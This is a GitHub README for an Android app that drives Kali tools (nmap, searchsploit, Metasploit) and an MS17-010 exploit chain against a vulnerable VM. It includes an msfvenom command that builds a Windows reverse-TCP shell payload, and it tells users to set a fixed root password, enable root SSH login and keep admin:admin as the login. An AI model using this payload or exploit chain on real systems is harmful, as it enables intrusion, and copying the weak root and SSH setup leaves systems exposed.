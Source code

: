 # Hack Into Your Heart

**This tool is only use for academic and educational.If someone use this tool causes any loss to others, I will not take any responsibility.**

You must change root password to !ROOTER and open SSH root permissions.

Download:
```
git clone https://github.com/aifred0729-TW/hack_into_your_heart.git
```

## Usage

Install Offensive_Security on android phone or your android virtual environment.

Login page default credentials is admin:admin

Start SSH service for AI2 program connect.<br>
Download the ms17-010.sh to /root and put the command.rc to /root, ms17-010.sh will used.<br>
If the vulnerable VM has the MS17-010 vulnerabilities, you can run checker.py with python2 to confirm target can be exploit.<br>
When checker.py is successful scan the vulnerable VM pipe, run send_and_execute.py with python2 to exploit the vulnerable VM.<br>

If you no have the shell.exe, use the msfvenom to spawn one.
```
msfvenom -p windows/shell_reverse_tcp -a x86 -e x86/shikata_ga_nai LHOST=<Your Local IP> LPORT=<Listen Port> -f exe -o shell.exe
```


### Linux Bash Module:<br>
Type the IP address of kali and type your bash command on it, than you can execute.<br>
If you know how to use the ssh, then you should be know how to use this modulel.<br>

Example Command:
```
ifconfig
```

### Nmap Module:<br>
Type the IP address of kali and target and setup the option then you can execute.<br>
Scan report will below the console.<br>


### Searchsploit Module:<br>
Type the vulnerabilities number or CMS/Service name and version.<br>
If the input text is vulnerable, than it will show the exploit.<br>

### Metasploit Module:<br>
Type the RHost LHost to input box and select a exploit module, then you can exploit.<br>
For security reason, if metasploit successful remote code execution, the target will be shutdown in 3 second.<br>
**The Target is not 100% can be exploit**


My Email:aifred0729@yahoo.com<br>
My Facebook:https://www.facebook.com/profile.php?id=100009717251061<br>

Try Harder!!

